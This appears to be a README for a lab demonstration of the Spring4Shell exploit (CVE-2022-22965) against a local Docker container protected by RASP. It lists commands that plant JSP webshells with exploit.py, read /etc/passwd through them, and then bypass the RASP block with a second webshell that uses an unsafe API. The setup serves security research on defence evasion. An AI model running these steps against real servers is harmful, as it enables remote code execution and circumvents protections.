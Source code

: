 1. mvn clean package
2. docker build . -t cve-2022-22965-exploit-rasp-with-pimpl
4. docker run -p 8080:8080 -p 8000:8000 cve-2022-22965-exploit-rasp-with-pimpl
5. curl http://localhost:8080/exploit/greeting
6. python3 -m pip install -r requirements.txt
7. python3 exploit.py --url="http://localhost:8080/exploit/greeting" --dir="webapps/ROOT" --file="reflection"
8. curl "http://localhost:8080/reflection.jsp?cmd=cat%20/etc/passwd" and see that we are blocked
  ![block.png](block.png)
9. Now deploy another webshell that uses unsafe API and escape constructor check;
   `   python3 exploit.py --url="http://localhost:8080/exploit/greeting" --dir="webapps/ROOT" --file="unsafe"
   `
10. curl "http://localhost:8080/unsafe.jsp?cmd=cat%20/etc/passwd" and enjoy the bypass
   ![bypass.png](bypass.png)